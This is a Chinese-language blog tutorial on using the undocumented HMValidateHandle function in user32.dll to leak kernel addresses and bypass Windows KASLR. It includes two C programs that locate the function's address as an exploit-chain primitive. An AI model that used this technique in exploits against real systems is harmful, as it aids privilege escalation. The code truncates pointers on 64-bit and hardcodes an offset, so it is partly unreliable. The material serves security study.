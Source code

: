 ```yaml
---
title: HMValidateHandle
tags: Windows
---
```


## 0x00 前言

一个典型的漏洞利用过程大概分为以下几步：

触发漏洞 —> 信息泄露 —> 构造读写原语 —> 代码执行

信息泄露的目的是利用一些泄露内核内存地址信息的方法，绕过 KASLR

## 0x01 KASLR

Windows vista 之后，微软对内核默认启用了 ASLR，即 KASLR，KASLR随机化了模块的加载基址，内核对象地址等，作为漏洞缓解的一种手段。对抗 KASLR 最直接的方法就是使用未公开函数或 Windows 内核信息泄露漏洞泄露内核内存地址信息。

## 0x02 HMValidateHandle

HMValidateHandle 是 user32.dll 中一个内部未公开的函数，他需要两个参数：handle、handle_type，通过查找句柄表，如果句柄与类型匹配，对象将会被复制到用户内存中，如果对象包含指向自身的指针，比如tagWND，HMValidateHandle 就能用来泄露内核内存地址。在 Windows 10 RS4 之后，微软关闭了这个函数。

## 0x03 查找HMValidateHandle

用 IDA 分析 user32.dll，查找到函数 isMenu：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095914.png)

可以看到 HMVaildateHandle 在此函数中被调用，因此只要查找此函数，找到 opcode 等于 e80，就可以找到HMValidateHandle 的地址。

整个代码流程为：

![image-20210909183005095](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095917.png)

## 0x04 代码

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");  // 检索 user32.dll 中的输出库函数 IsMenu 地址

  if (pIsMenu == NULL)
  {
    printf("Failed to find location of exported function 'IsMenu' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pIsMenu + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'IsMenu'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pIsMenu + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 IsMenu 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x", pHmValidateHandle);
}

```


![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095921.png)

## 0x05 代码2

有上面的操作流程可知，只要调用了 HMValidateHandle 的函数都可以用来寻找 HMValidateHandle 的函数地址。

IDA查看引用：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095924.png)

挑选偏移较小的函数，如 GetMenuItemCount：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095926.png)

首次调用的依然是 HMValideateHandle，因此可以直接修改代码为：

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pGetMenuItemCount = (BYTE*)GetProcAddress(hUser32, "GetMenuItemCount");  // 检索 user32.dll 中的输出库函数 GetMenuItemCount 地址

  if (pGetMenuItemCount == NULL)
  {
    printf("Failed to find location of exported function 'GetMenuItemCount' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pGetMenuItemCount + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'GetMenuItemCount'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pGetMenuItemCount + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pGetMenuItemCount + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 GetMenuItemCount 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x",pHmValidateHandle);
}
```

